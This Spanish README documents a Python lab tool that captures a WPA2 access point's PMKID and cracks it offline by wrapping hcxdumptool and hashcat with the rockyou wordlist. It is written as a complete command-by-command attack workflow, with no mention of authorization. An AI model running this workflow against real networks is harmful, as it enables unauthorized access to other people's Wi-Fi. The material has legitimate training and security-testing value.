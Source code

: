 ## Objetivo
Sin desconectar al cliente, capturar la PMKID que el punto de acceso (AP) 
envía durante cada asociación y crackearla sin conexión.

## Requisitos
- Python 3.x  
- `wpa2_lab.py` (este repositorio)  
- Adaptador Wi-Fi capaz de modo monitor  
- Herramientas externas:
  - `hcxdumptool` (incluye `hcxpcaptool`)
  - `hashcat` (v6.2 o superior)  
- Diccionario de contraseñas (ej. `/usr/share/wordlists/rockyou.txt`)  
- Permisos de super-usuario para operaciones con interfaz Wi-Fi  

## Instalación rápida
Clonar el repositorio y situarse en la carpeta:

```bash
git clone https://github.com/tu-usuario/wpa2lab.git
cd wpa2lab
```

Asegúrate de que `wpa2_lab.py` sea ejecutable:

```bash
chmod +x wpa2_lab.py
```
Opcional: crea un venv y activalo antes de instalar requisitos. 

```bash
source venv/bin/activate 
```

## Uso exprés (menú interactivo)

Lanza el menú gráfico:

```bash
sudo ./wpa2_lab.py
```
![Menú principal](docs/img/menu.png)

Un flujo típico sería 1 → 4 → 5 → 6 → 7.
(Monitor → Scan → Capture → Extract → Crack).

## Guía de uso exprés con comandos

### 1. Ayuda 
```bash
sudo ./wpa2_lab.py --help
```


### 1. Poner la tarjeta en modo monitor

```bash
sudo ./wpa2_lab.py prepare 
```
###  Levantar AP en wlan

```bash
sudo ./wpa2_lab.py ap --ap 
```

### 2. Capturar la PMKID

```bash
sudo ./wpa2_lab.py capture
# Capturando PMKID en wlan1mon → dump.pcapng
# (Pulsa Ctrl-C para detener la captura)
```

Esto genera un archivo `dump.pcapng` con todas las asociaciones 
AP↔cliente y los PMKID correspondientes.

### 3. Extraer el hash para Hashcat

```bash
sudo ./wpa2_lab.py extract
# Extrae hash → hash.22000
```

Internamente se ejecuta:

```bash
hcxpcaptool -z hash.22000 dump.pcapng
```

### 4. Crackear sin conexión

```bash
sudo ./wpa2_lab.py crack
```

Que lanza automáticamente:

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
```

## ¿Cómo funciona el ataque de diccionario?
Hashcat recorre cada contraseña del fichero elegido (en el ejemplo 
`rockyou.txt`) y calcula la clave maestra necesaria para verificar si 
coincide con el hash PMKID extraído.  
Si la clave WPA2 de la red está dentro del diccionario, Hashcat la
descubrirá y la mostrará en pantalla.

## Archivos generados
- **dump.pcapng** – Captura de tráfico con PMKID  
- **hash.22000**  – Hash listo para Hashcat (formato modo 22000)

## Opciones adicionales
Todos los subcomandos aceptan `-h / --help` para ver parámetros 
opcionales como interfaz de captura, canal, salida personalizada, 
métodos de ataque, etc.
